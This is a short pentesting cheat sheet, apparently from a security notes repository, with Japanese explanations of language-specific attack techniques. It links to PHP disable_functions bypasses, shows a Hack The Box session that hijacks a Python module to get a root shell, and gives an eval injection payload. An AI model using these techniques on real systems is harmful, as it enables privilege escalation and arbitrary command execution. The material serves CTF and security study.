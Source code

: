 # language
----

## PHP
* [dangerous functions](https://gist.github.com/mccabe615/b0907514d34b2de088c4996933ea1720)
* [ RCE in PHP or how to bypass disable_functions in PHP installations](https://lab.wallarm.com/rce-in-php-or-how-to-bypass-disable_functions-in-php-installations-6ccdbf4f52bb/)
* [Bypassing PHP disable_functions with Chankro](https://0xdf.gitlab.io/2019/08/02/bypassing-php-disable_functions-with-chankro.html)

## Python
* モジュールはsys.pathに従って読み込まれる
* 実行ファイルと同改装のディレクトリに、実行ファイルが読み込むモジュールと同名のモジュールが存在する場合、sys.pathによっては同階層のモジュールが優先して読み込まれる
* またPYTHONPATH環境変数は、通常同階層のモジュールの次に読み込まれる
* sys.pathもしくはPYTHONPATH を利用し、権限昇格が可能な場合が存在する
* Htb: Stratosphere
   ```console
   richard@stratosphere:~$ python -c 'import sys; print(sys.path)'
   ['', '/usr/lib/python35.zip', '/usr/lib/python3.5', '/usr/lib/python3.5/plat-x86_64-linux-gnu', '/usr/lib/python3.5/lib-dynload', '/usr/local/lib/python3.5/dist-packages', '/usr/lib/python3/dist-packages']
   richard@stratosphere:~$ PYTHONPATH='/hoo' python -c 'import sys; print(sys.path)'
   ['', '/hoo', '/usr/lib/python35.zip', '/usr/lib/python3.5', '/usr/lib/python3.5/plat-x86_64-linux-gnu', '/usr/lib/python3.5/lib-dynload', '/usr/local/lib/python3.5/dist-packages', '/usr/lib/python3/dist-packages']
   richard@stratosphere:~$ printf 'import os\nos.system("/bin/sh")\n' > hashlib.py
   richard@stratosphere:~$ sudo /usr/bin/python2.7 /home/richard/test.py
   # id
   uid=0(root) gid=0(root) groups=0(root)
   ```
   
* eval関数やinput関数に任意の文字列を入力可能な場合、次のペイロードが使用可能
  ```python
  __import__("os").system('COMMAND')
  ```

* os.path.join
```python
os.path.join('/hoo', 'bar', '/baz')
# => /baz
```
  
* [Hacking Python Applications](https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1)

## Perl
* [Re: The Perl Jam 2](https://kentfredric.github.io/blog/tag/the-perl-jam-2/)

